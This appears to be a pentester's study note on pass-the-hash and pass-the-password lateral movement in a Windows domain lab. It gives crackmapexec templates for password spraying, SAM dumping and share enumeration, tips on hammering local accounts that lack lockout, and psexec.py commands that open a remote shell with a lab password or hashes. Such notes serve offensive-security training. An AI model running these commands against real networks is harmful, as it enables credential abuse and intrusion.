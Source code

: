 # Pass the Hash/Password Overview

## What is it?

* using cracked passwords and SAM hashes for lateral movement in the network
* super powerful

## Crackmapexec Pass the Password

### Crackmapexec Command

```bash
crackmapexec <protocol: smb is best> <ip/CIDR> -u <user> -d <domain> -p <pass>
```

### Password Spraying?

* Domain Accounts have a lockout policy, but local accounts do not
* hammer local accounts!

### Popping a Shell with the Credentials Received

```bash
psexec.py marvel/fcastle:'P@$$w0rd!'@172.16.35.6
```

### Flag to Attempt a SAM Dump at Success

```bash
--sam
```

### Enumerate Shares

```bash
--shares
```

### Read the Documentation!

```bash
crackmapexec --help
```

## Crackmapexec Pass the Hash \(cannot pass NTLMv2\)

### Crackmapexec Command

```bash
crackmapexec <protcol: smb is best> <ip/CIDR> -u <user> -H <last hash part>
```

### Popping a Shell with the Credentials Received

```bash
psexec.py “frank castle”:@172.16.35.7 -hashes <LM+NT aka the whole hash>
```

